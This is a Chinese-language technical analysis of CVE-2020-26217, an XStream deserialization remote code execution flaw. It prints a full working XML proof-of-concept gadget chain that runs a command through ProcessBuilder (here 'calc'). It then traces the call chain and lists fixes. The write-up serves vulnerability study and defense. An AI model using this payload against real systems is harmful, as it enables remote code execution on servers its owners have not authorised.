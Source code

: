 # CVE-2020-26217 远程代码执行
- [CVE-2020-26217 远程代码执行](#cve-2020-26217-远程代码执行)
  - [影响版本](#影响版本)
  - [漏洞分析](#漏洞分析)
    - [MapConverter](#mapconverter)
    - [Base64Data](#base64data)
    - [DataSource](#datasource)
    - [FilterIterator](#filteriterator)
    - [ImageIO$ContainsFilter](#imageiocontainsfilter)
    - [调用链](#调用链)
  - [修复方式](#修复方式)
  - [参考](#参考)

## 影响版本
Xstream <= 1.4.13  
POC:
```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```
## 漏洞分析
从`TreeUnmarshaller.start`开始解析xml,从最外面的`<map>`标签开始,`map`的实现类从`mapper.defaultImplementationOf`中获取为`HashMap`类,而对应的`convert`转换器为`MapConverter`.
![](2021-11-11-23-37-45.png)
### MapConverter
`MapConverter`用于将`java.util.Map`和XML进行相互转换,在`map`标签下的`entry`元素指定对应的键值即可,在POC中指定的键为一个`jdk.nashorn.internal.objects.NativeString`对象,而值为`test`.
![](2021-11-12-16-35-46.png)
然后进入`AbstractReferenceUnmarshaller.convert`中进行了一些将当前标签压栈缓存的操作之后,继续调用其父类的`convert`.
![](2021-11-11-23-44-50.png)
在父类的`convert`中将类型`HashMap`缓存一下就进入到`MapConverter`中进行解析,在`Mapconvert`中调用`createCollection`创建了一个空的`Map`对象,然后调用`populateMap`方法来填充,然后开始读取`<Entry>`节点得到键值对象放入`Map`中,调用关系如下.
![](2021-11-12-00-03-43.png)
在调用`put`将键值放入map中会计算其key的hash.
![](2021-11-12-16-43-22.png)
而在`hash`中则会调用key的`hashcode()`方法,也就是`NativeString`的`hashcode`方法.
![](2021-11-12-16-44-21.png)
在`NativeString`的`hashcode`中调用了`getStringValue().hashcode()`.
![](2021-11-12-16-50-20.png)
### Base64Data
而在`getStringValue()`中则返回`NativeString`的values,也
就是`Base64Data.toString()`.
![](2021-11-12-17-18-15.png)
在`toString()`中又先调用了`this.get()`,在`get()`中将`dataHandler`中的`DataSource()`通过`readFrom`放入了一个字节数组中.
![](2021-11-12-18-57-34.png)
### DataSource
而此时的`DataSource`内容如POC一样如下
![](2021-11-12-19-12-05.png)
在`readFrom`中调用了`is.read`,而此时的`is`则为poc中指定的`java.io.SequenceInputStream`顺序输入流.
![](2021-11-12-19-24-34.png)
在输入流`in.read`方法中循环读取时调用`nextStream`,而在该方法中读取了`e`的节点,而此处的e即为poc中`e`标签指定的`javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator`.
![](2021-11-12-19-29-10.png)
在读取`javax.swing.MultiUIDefaults`节点时又会继续调用其下的`iterator.next()`读取`iterator`节点,而此时的`iterator`值为我们可控的`javax.imageio.spi.FilterIterator`
![](2021-11-12-19-31-21.png)
### FilterIterator
进入到`FilterIterator.next()`中调用了其`advance()`方法.
![](2021-11-12-19-42-43.png)
而该对象的`iter`和`filter`均可控,分别为我们poc中的`java.util.ArrayList$Itr`和`javax.imageio.ImageIO$ContainsFilter`.
![](2021-11-12-19-43-19.png)
### ImageIO$ContainsFilter
然后循环读取`iter`节点的值分别调用`filter.filter`.而在`ImageIO$ContainsFilter`这个filter中的filter方法则是使用了反射来返回了一个`contains`,而反射参数均可控,最后造成了RCE.
![](2021-11-12-19-48-10.png)
### 调用链
完整调用链如下:
![](2021-11-12-19-50-00.png)
总体思路即`MapConverter`中在将指定的键放入map中时会计算键名的Hash,其中会调用到键的toString()方法,而`Base64Data`类的toString()的方法中通过迭代来读取其对应的属性,当设置迭代器为`ImageIO$ContainsFilter`时,该类调用了反射的方式生成对应的容器,而反射的参数均可控造成漏洞.
## 修复方式
1. 使用官方的安全框架白名单.
2. 将javax.imageio.ImageIO$ContainsFilter手动添加到黑名单中.
## 参考
https://x-stream.github.io/CVE-2020-26217.html  
https://xz.aliyun.com/t/8526